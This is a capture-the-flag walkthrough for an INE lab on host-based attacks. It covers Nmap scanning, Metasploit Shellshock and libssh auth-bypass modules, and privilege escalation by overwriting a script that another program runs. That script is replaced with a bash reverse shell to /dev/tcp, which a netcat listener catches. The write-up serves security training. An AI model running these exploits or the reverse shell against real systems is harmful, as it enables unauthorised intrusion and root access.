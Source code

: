 # Host & Network Penetration Testing: System-Host Based Attacks CTF 2
### Flag 1: Check the root ('/') directory for a file that might hold the key to the first flag on target1.ine.local

We begin with an Nmap scan across all ports, which reveals that only port 80 is open

    nmap -sS -O -p- -T4 target1.ine.local
    nmap -sS -O -p80 -sV -T4 target1.ine.local

A service scan reveals Apache 2.4.6 (Unix) on the target system.

We proceed with a Dirb scan to enumerate possible useful folders. It finds cgi-dbin folder and the home page of the site named browser.cgi.
This suggest we could attempt a Shellshocked vulnerability exploit.

    nmap target1.ine.local --script http-shellshock --script-args "http-shellshock.uri=/browser.cgi"

Nmap reveals that the file browser.cgi is vulnerable to Shellshock.

We proceed with Metasploit:
    '''
    search shellshock
    use exploit/multi/http/apache_mod_cgi_bash_env_exec
    setg RHOSTS target1.ine.local
    setg TARGETURI /browser.cgi
    setg LHOST 192.164.224.2 
    run
    '''

**Note: If something is not working, try selecting another LPORT.**

We obtain a Meterpreter session and start exploring the target server, finding .flag.txt as our second flag.
Navigating to the root directory, we locate the first flag.

Flag 2: In the server's root directory, there might be something hidden. Explore '/opt/apache/htdocs/' carefully to find the next flag on target1.ine.local.

This flag is found during the previous step.


Flag 3: Investigate the user's home directory and consider using 'libssh_auth_bypass' to uncover the flag on target2.ine.local.

Analyzing target 2, we scan it with Nmap. The scan leads us to port 22 and its service, libssh 0.8.3.

    nmap target2.ine.local -p- -T4 -sS
    nmap target2.ine.local -p22 -T4 -sS -sV

Using:
searchsploit libssh

we discover that this particular version of libssh is vulnerable to unauthorized access.

We proceed with Metasploit:
search libssh
use auxiliary/scanner/ssh/libssh_auth_bypass - action: shell
setg RHOSTS target2.ine.local
set CMD /bin/bash -i
run
sessions -i 1

Navigating to the home folder of the user, we locate the third flag.


Flag 4: The most restricted areas often hold the most valuable secrets. Look into the '/root' directory to find the hidden flag on target2.ine.local.

Obtaining a root shell is not an easy task. However, there is an executable file in the user’s home folder named welcome, which the user is able to execute. This file runs another file, greetings, that is not accessible.

We overwrite greetings with a file containing the following string:
 
bash -i >& /dev/tcp/192.164.224.2/41234 0>&1

After using Netcat to open port on the attack machine to listen for communications:

nc -nlvp 41234

We execute welcome, that executes greetings, obtaining a root shell on the target machine.

Navigating to the root folder we find the last flag.
